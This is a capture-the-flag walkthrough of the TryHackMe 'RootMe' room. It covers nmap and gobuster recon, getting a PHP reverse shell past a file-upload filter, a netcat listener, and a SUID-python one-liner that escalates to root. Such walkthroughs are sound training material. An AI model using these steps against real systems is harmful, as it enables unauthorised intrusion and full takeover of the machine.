 <p align="center"><img src="./Cover.png" width="310" ></p>
<h1><p align="center">Simple CTF : </p></h1> <h2><p align="center"> A ctf for beginners, can you root me?</p></h2>
                                                                                                                

### Room Link: [RootMe](https://tryhackme.com/room/rrootme) 

## Recon...
So I began with nmap scan to Find entry points.
```bash 
$ sudo nmap -T4 -sC -sS -A 10.10.210.59 > nmap.out
$ cat nmap.out

Starting Nmap 7.60 ( https://nmap.org ) at 2021-03-22 11:00 GMT
Nmap scan report for ip-10-10-231-92.eu-west-1.compute.internal (10.10.231.92)
Host is up (0.00038s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (EdDSA)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
MAC Address: 02:31:87:E1:4C:F5 (Unknown)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).

Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.38 ms ip-10-10-231-92.eu-west-1.compute.internal (10.10.231.92)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.11 seconds
```

As I can see there is a http server running on target. Lets checkout and let dirbuster run in background.
```bash
$ sudo gobuster dir -u http://10.10.231.92/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e -o dir.out
$ cat dir.out 

http://10.10.231.92/uploads (Status: 301)
http://10.10.231.92/css (Status: 301)
http://10.10.231.92/js (Status: 301)
http://10.10.231.92/panel (Status: 301)
http://10.10.231.92/server-status (Status: 403)

```

## Foot Hold...

Now there are 2 directories that I found intresting and one had a upload form. So I tried to upload php reverse shell script and bypassed with burp. 
While ```nc``` Listening in background.
```bash
$ sudo nc -lvnp 8080 

uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$whoami
www-data 
```
We have a reverse shell, stabalize it with this one liner ``` python3 -c 'import pty;pty.spawn("/bin/bash")'```.

Now find user.txt flag.
```bash
www-data@rootme:/$ find / -name user.txt -type f 2>/dev/null

/var/www/user.txt

www-data@rootme:/$ cat /var/www/user.txt

THM{****************}
```

## Privlege Escalation...

Lets enumerate the user. I used [Linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
for it.
```bash 
www-data@rootme:/var/tmp$ ./linpeas.sh
./linpeas.sh
 Starting linpeas. Caching Writable Folders...

                     ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
             ▄▄▄▄▄▄▄             ▄▄▄▄▄▄▄▄▄
      ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄  ▄▄▄▄▄
  ▄▄▄▄     ▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄▄▄
  ▄    ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
  ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄       ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
  ▄▄▄▄▄▄▄▄▄▄▄          ▄▄▄▄▄▄               ▄▄▄▄▄▄ ▄
  ▄▄▄▄▄▄              ▄▄▄▄▄▄▄▄                 ▄▄▄▄ 
  ▄▄                  ▄▄▄ ▄▄▄▄▄                  ▄▄▄
  ▄▄                ▄▄▄▄▄▄▄▄▄▄▄▄                  ▄▄
  ▄            ▄▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄   ▄▄
  ▄      ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
  ▄▄▄▄▄▄▄▄▄▄▄▄▄▄                                ▄▄▄▄
  ▄▄▄▄▄  ▄▄▄▄▄                       ▄▄▄▄▄▄     ▄▄▄▄
  ▄▄▄▄   ▄▄▄▄▄                       ▄▄▄▄▄      ▄ ▄▄
  ▄▄▄▄▄  ▄▄▄▄▄        ▄▄▄▄▄▄▄        ▄▄▄▄▄     ▄▄▄▄▄
  ▄▄▄▄▄▄  ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄   ▄▄▄▄▄ 
   ▄▄▄▄▄▄▄▄▄▄▄▄▄▄        ▄          ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ 
  ▄▄▄▄▄▄▄▄▄▄▄▄▄                       ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
  ▄▄▄▄▄▄▄▄▄▄▄                         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
  ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄            ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
   ▄▄▄▄▄▄   ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄
        ▄▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄▄▄▄  ▄▄▄▄▄▄▄▄▄▄ 
             ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
    linpeas v3.0.2 by carlospolop
                                                                                                                             
ADVISORY: This script should be used for authorized penetration testing and/or educational purposes only. Any misuse of this software will not be the responsibility of the author or of any other collaborator. Use it at your own networks and/or with the network owner's permission.                                                                                               
                                                                                                                             
...
[+] SUID - Check easy privesc, exploits and write perms                                                                      
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid                                                
strings Not Found                                                                                                            
-rwsr-xr-x 1 root   root             44K May  7  2014 /snap/core/9665/bin/ping6                                              
-rwsr-xr-x 1 root   root             44K May  7  2014 /snap/core/9665/bin/ping
-rwsr-sr-x 1 root   root            3.5M Aug  4  2020 /usr/bin/python
```
So there is a SUID set for python as root, lets exploit it.Check [GTFOBins](https://gtfobins.github.io/gtfobins/python/).

```bash
www-data@rootme:/$ /usr/bin/python -c 'import os; os.setuid(0); os.system("/bin/sh")'

# python3 -c 'import pty;pty.spawn("/bin/bash")'
root@rootme:/# whoami
root
root@rootme:/# cat /root/root.txt

THM{*******************}
```

Now root flag can be obatined but I wannted to own the root on **RootMe** so I changed the password and rooted the box.
